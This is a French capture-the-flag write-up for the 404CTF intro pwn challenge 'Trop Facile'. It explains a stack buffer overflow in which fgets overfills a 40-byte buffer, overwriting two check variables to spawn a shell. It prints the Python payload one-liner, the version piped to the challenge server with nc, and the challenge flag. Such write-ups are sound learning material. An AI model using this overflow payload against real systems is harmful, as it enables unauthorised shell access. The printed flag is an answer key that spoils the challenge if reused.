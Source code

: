 # Trop Facile



- Category: `Pwn`
- Points: `100` => `100`
- Difficulty: Intro
- Solves: `300`


**Description**

> Agent, suite à une mission périlleuse, vos collègues ont réussi à s'emparer d'un binaire s'exécutant sur une des machines de Hallebarde. Après une analyse poussée, ils ont réussi à extraire ce qui semblait être la meilleure version du code source. Vous êtes chargé de la dernière étape : essayez d'exploiter le binaire pour en tirer quelque chose.
>
>nc challenge.404ctf.fr 32458
>


**Attachments**

- `compromis.c, compromis`

### :book: Introduction

 Etant donne que c'etait mon tout premier chall de pwn c'etait plutot interessant et assez rapide a faire.

**Recon**
![home](![image](https://user-images.githubusercontent.com/64932654/167711362-83b80e2f-f083-4199-ac3a-598aba2f2f82.png))
- Le code source est relativement simple:
    - **Il y a une variable buf de 40bytes qui prend comme valeur un fgets de 49 bytes l'input**
    - **Une valeur check qui est egal a "0xcafebebe"**
    - **Une valeur key qui est egal a "0xdeadbeef"**
    - **On remarque que si key est egal a "0xcafebebe" et check a "0xdeadbeef" un shell se lance**
Il faut donc depasser sur les variables key et check pour ouvrir un shell.




En regardant un peu on peut voir que la fonction fgets recupere 48 bytes (qui vont donc faire depasser la variable buf sur key et check
Donc en theorie si on rentre en input ```python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")' | ./compromis``` la pile devrait ressembler a ca: 


![pile](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/pile1.PNG)


On a donc reussi a depasser sur les variables check et key.

En appliquant: 


![shell](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/shellobtenu.PNG)


On obtient bien un message de reussite mais le shell ne reste pas.
Pour garder le controle sur l'entree standard il suffit d'executer


```(python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")';cat) | ./compromis```

On arrive maintenant a executer des commandes :)

### :arrows_counterclockwise: Exploitation
Il nous suffit maintenant simplement d'executer la meme commande mais en redirigeant le pipe vers le serveur :

```python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")';cat) | nc challenge.404ctf.fr 32458```


![flag](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/flag.PNG)



```

Flag: `404CTF{C_7r0P_F4C113_D3_PWN_14_H411384rD3}`


```

